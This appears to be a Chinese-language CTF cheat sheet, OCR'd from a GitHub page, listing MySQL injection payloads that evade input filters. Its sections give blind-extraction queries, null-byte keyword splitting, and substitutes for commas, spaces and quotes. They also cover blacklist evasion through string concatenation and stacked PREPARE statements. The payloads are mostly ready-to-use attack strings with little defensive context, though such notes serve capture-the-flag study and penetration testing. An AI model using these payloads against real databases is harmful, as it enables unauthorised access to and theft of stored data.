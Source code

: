 



### 过滤表名的情况下查询

```mysql
select a from b='' or substr((hex((select group_concat(a) from (select 1,2,3`a`,4,5 union select * from users)`b`))),71,1)=0#
```



### 关键字 %00绕过

•SELECT :SE\x00LECT  (\x00指ASCII为0的字符） 

### 绕过逗号限制

1.join

`select 'a','b','c','d' union select * from ((select 1)a join (select 2)b join (select 3)c join (select 4)d);`

2.扩号:mid('a'from(1))



### 绕过空格限制

1. /**/代替空格
2. 使用括号绕过，括号可以用来包围子查询，任何计算结果的语句都可以使用（）包围，并且两端可以没有多余的空格
3. 使用符号替代空格 %20 %09 %0d %0b %0c %0d %a0 %0a
4. ^,&&,||,括号综合利用
5. `and/or`后面可以跟上`奇数个!、偶数个~`可以替代空格，也可以混合使用(规律又不同)，and/or前的空格可用省略

### 绕过引号限制

- -- hex 编码                                               
SELECT * FROM Users WHERE username = 0x61646D696E
- -- char() 函数                                           SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)

### 绕过字符串黑名单

- SELECT 'a' 'd' 'mi' 'n';
- SELECT CONCAT('a', 'd', 'm', 'i', 'n');
- SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
- SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
- SELECT extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)
- SELECT (char(97)+char(100)+char(109)+char(105)+char(110))

### 禁用select,where等等关键字用prepare执行预定义语句



关于MySQL中的预处理语句原理与使用，这篇文章讲解的比较详细：MySQL的SQL预处理(Prepared)。本题中由于可以使用堆叠查询，并且需要使用SELECT关键字并绕过过滤，因此想到利用字符串转换与拼接构造语句最后执行，这时就可以使用预处理语句。
